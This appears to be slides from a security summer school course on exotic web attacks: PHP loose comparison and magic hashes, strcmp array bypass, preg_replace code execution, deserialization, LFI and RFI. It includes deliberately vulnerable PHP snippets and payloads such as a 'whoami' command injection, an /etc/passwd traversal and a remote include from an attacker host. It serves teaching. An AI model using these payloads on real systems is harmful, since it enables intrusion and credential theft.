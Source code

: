 # Exotic Attacks

Security Summer School

---

## Server Side Languages Popularity

![Server Side Languages Popularity](../assets/language-stats.png)

---

## Loose vs Strict Comparison

- == vs ===
- PHP, JavaScript
- PHP type juggling

---

## The Vulnerability

```php
<?php
    if ($_POST["password"] == $admin_password) {
    // if (... == "secure-pass1290") {
        login_as_admin();
    }
?>
```

---

## Bypassing The Vulnerability

```php
<?php
    if ($_POST["password"] == $admin_password) {
    // if (0 == "secure-pass1290") {
        login_as_admin();
    }
?>
```

---

## Conditions for it to work (1)

The POST parameter must not be converted into string.

```php
<?php
    if ($_POST["password"] == $admin_password) {
    // if ("0" == "secure-pass1290") {
        login_as_admin();
    }
?>
```

---

## Conditions for it to work (2)

It can happen when the application accepts input as JSON, for example:

`{"password": "0"}`

vs

`{"password": 0}`

---

## Magic hashes

- hashes that start with a leading 0e (the scientific notation for "0 to the power of some value") and have only numbers after that
- e.g.: `"0e462097431906509019562988736854"`

---

## Magic hashes - how the exploit works

- hashing: f(string) -> … -> "35266yhery34563"
- typecasting: `(int)"7_string" = 7;`
- `"0e015339760548602306096794382326" == "0"` -> True

Reminder: usually, we store in the database, and then compare, hashes of the passwords, not the passwords themselves.

---

## Magic hashes discovered so far

![Examples of magic hashes](../assets/magic-hashes.png)

---

## The strcmp() function (PHP)

---

The `strcmp($str1, $str2)` function compares two strings.

The only possible return values are:

- **0**, if `$str1` is equal to `$str2`
- **< 0**, if `$str1` is less than `$str2`
- **\> 0**, if `$str1` is greater than `$str2`

---

## The strcmp() Vulnerability

```php
<?php
    if (strcmp($password, $_POST["password"]) == 0) {
        $success = true;
    } else {
        $success = false;
    }
?>
```

---

## Exploiting strcmp() - send POST data as array

`password[]=x` => `$_POST["password"] is an array`

---

## It gives a warning

`strcmp($password, [])` => warning:

`Warning: strcmp() expects parameter 2 to be string, array given in index.php on line 5`

---

## The result

But still, it has a return value:

`strcmp($password, []) = NULL`

---

## Finally

```php
<?php
    if (strcmp($password, $_POST["password"]) == 0) {
    //  if (NULL == 0) {
        $success = true;
    } else {
        $success = false;
    }
?>
```

---

## The preg_replace() function (PHP)

```php
<?php
    $in = "Somewhere, something incredible is waiting";
    echo preg_replace($_GET["what"], $_GET["with"], $in);
?>
```

- `$_GET['what']` -> a regex, e.g. `'/some/'`
- `$_GET['with']`` -> a string, e.g. `'many'`
- `$in` -> the source string in which the replacement will be done

---

## [PCRE modification flags](https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php)

- `e` will cause PHP to execute the result of the `preg_replace()` operation as PHP code (deprecated since PHP 5.5.0, removed completely since PHP 7.0.0)

---

## Using preg_replace() to execute commands

payload:

`?what=/Known/e&with=system('whoami')`

---

## PHP Object Injection/ PHP Inscure Object Deserialization

- `serialize()`/ `unserialize()`
- magic methods: `__wakeup()` (when unserialized), `__destruct()`, `__toString()`

---

## Python pickle module

<https://docs.python.org/3/library/pickle.html>

- The module lets you serialize and deserialize data.
- Essentially, this means that you can convert a Python object into a stream of bytes.
- Later you can reconstruct it by loading that stream of bytes.

---

## How to spawn a reverse shell

1. Create an account on [ngrok](https://ngrok.com/).
2. Follow the install instructions and forward one of your ports.
3. You will receive a ngrok host and a port.

---

## Local File Inclusion (LFI)

1. Path Traversal:

`http://victim.com/view.php?file=../../../../etc/passwd`

2. Remote Code Execution

---

## Remote File Inclusion (RFI)

- Include a remote file in the current web application and execute its contents
- Payload:

`http://victim.com?file=http://attacker-site.com/evil.php`
